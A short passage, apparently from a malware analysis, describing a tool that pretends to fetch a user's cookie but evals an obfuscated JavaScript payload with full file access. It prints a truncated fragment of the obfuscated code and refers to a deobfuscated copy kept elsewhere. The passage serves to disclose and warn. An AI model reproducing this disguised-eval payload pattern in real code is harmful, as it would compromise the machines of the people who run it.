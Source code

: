 The payload is obfuscated and looks like this:

```javascript
{
"cookie": "function g(a,b){const c=e();return g=function(d,f){d=d-(-0x1b7f+0xc67+0x323*0x5);let h=c[d];if(g['pslYso']===undefined){var i=function(n){const o='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';let p='',q='',r=p+i;for(let 
// Truncated for convenience
```

It tricks the user into thinking it's actually getting the cookie for the user.

In fact, it's eval-ing the payload (which basically means it's running the code with node-level privileges on your machine, having access to all the files in your system).

I have deobfuscated the payload. You'll find it in `payloads/main.js`, in the golden-city repository.
